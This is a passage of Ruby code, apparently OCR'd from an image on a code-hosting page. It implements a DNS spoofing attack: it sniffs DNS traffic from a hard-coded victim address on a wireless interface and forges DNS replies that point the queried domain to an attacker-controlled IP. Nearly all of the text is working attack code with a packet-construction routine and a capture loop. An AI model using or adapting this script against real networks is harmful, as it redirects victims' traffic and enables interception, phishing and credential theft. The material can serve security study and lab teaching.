 ```ruby
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end
```
